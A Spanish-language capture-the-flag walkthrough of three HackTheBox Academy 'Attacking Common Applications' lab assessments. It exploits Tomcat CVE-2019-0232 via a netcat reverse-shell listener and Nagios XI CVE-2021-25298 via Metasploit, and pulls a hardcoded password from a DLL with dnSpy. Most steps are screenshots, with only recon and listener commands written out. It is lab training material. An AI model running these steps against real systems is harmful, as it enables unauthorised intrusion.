

# Attacking Common Applications

## Skills Assessment I

**Target**(s): 10.129.201.89

1. **What vulnerable application is running?**

Lanzamos un escaneo con Nmap:

```bash
nmap -Pn -sV 10.129.201.89
```

<figure><figcaption></figcaption></figure>

2. **What port is this application running on?**

En el escaneo anterior encontramos la respuesta a esta pregunta.

3. **What version of the application is in use?**

Accedemos a través del navegador y vemos la versión:

<figure><figcaption></figcaption></figure>

**Target**(s): 10.129.201.89

4. **Exploit the application to obtain a shell and submit the contents of the flag.txt file on the Administrator desktop.**

La versión de Tomcat es vulnerable RCE, primero haremos un fuzzeo para localizar el endpoint .bat:

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.129.201.89:8080/cgi/FUZZ.bat
```

<figure><figcaption></figcaption></figure>

Identificamos cmd. Descargamos el script para explotar la vuln:

```bash
sudo git clone https://github.com/jaiguptanick/CVE-2019-0232
```

Accedemos al script y lo modificamos:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Después en el terminal abrimos 3 tabs:

* Tab 1 - Ponemos una consola a la escucha con el puerto indicado en el script:

```bash
nc -lnvp 1234
```

<figure><figcaption></figcaption></figure>

* Tab 2 - Desde el directorio donde tenemos el script levantamos un servidor HTTP:

```bash
sudo python3 -m http.server 8000
```

<figure><figcaption></figcaption></figure>

* Tab 3 - Ejecutamos el script modificado:

```bash
python3 CVE-2019-0232.py
```

<figure><figcaption></figcaption></figure>

En la consola a la escucha recibimos la conexión:

<figure><figcaption></figcaption></figure>

Navegamos y buscamos la flag:

<figure><figcaption></figcaption></figure>

## Skills Assessment II

**Target**(s): 10.129.61.155

* vHosts needed for these questions:
  * gitlab.inlanefreight.local

Añadimos al /etc/hosts el vHost con la IP:

<figure><figcaption></figcaption></figure>

Lanzamos un escaneo con Nmap:

```bash
nmap -Pn -sV 10.129.61.155
```

<figure><figcaption></figcaption></figure>

Hacemos un fuzzeo de los vHosts:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.155 -H "Host: FUZZ.inlanefreight.local"
```

Salen muchas respuestas con el tamaño 46166, es por el tamaño que tenemos que filtrar:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.155 -H "Host: FUZZ.inlanefreight.local" -fs 46166
```

<figure><figcaption></figcaption></figure>

Añadimos los vHosts al archivo /etc/hosts apuntando a la misma IP:

<figure><figcaption></figcaption></figure>

1. **What is the URL of the WordPress instance?**

• Accedemos desde el navegador al vHost blog.inlanefreight.local :

<figure><figcaption></figcaption></figure>

En la URL intentamos acceder a /wp-admin para ver si aparece la página de login de Wordpress:

<figure><figcaption></figcaption></figure>

2. **What is the name of the public GitLab project?**

• Accedemos a la URL del vHost gitlab.inlanefreight.local y empezamos a navegar:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Accedemos al README.md pero no encontramos nada interesante:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

3. **What is the FQDN of the third vhost?**

<figure><figcaption></figcaption></figure>

4. **What application is running on this third vhost? (One word)**

<figure><figcaption></figcaption></figure>

5. **What is the admin password to access this application?**

Entramos a GitLab y nos registramos:

<figure><figcaption></figcaption></figure>

Una vez registrado, vamos a Explore projects:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Accedemos al proyecto de Nagios y abrimos el archivo INSTALL para ver la instalación:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

6. **Obtain reverse shell access on the target and submit the contents of the flag.txt file.**

Accedemos a nagios con las credenciales que hemos encontrado:

<figure><figcaption></figcaption></figure>

Identificamos la versión de Nagios:

<figure><figcaption></figcaption></figure>

Con una búsqueda rápida encontramos que la versión 5.7.5 de Nagios XI es vulnerable y tiene el CVE-2021-25298:

<figure><figcaption></figcaption></figure>

Este exploit está en Metasploit, así que vamos a prepararlo y a ejecutarlo:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Navegamos por la máquina en búsqueda de la flag:

<figure><figcaption></figcaption></figure>

## Skills Assessment III

**Target**(s): 10.129.95.200

1. What is the hardcoded password for the database connection in the MultimasterAPI.dll file?

Nos conectamos con Remmina al objetivo:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Buscamos el archivo que nos pide en la pregunta:

<figure><figcaption></figcaption></figure>

Nos ponemos a investigar por la máquina y encontramos la herramienta dnSpy:

<figure><figcaption></figcaption></figure>

Arrastramos el archivo a dnSpy:

<figure><figcaption></figcaption></figure>

Desplegamos el MultimasterAPI > MultimasterAPI.Controllers y si hacemos scroll encontramos la contraseña hardcodeada:

<figure><figcaption></figcaption></figure>


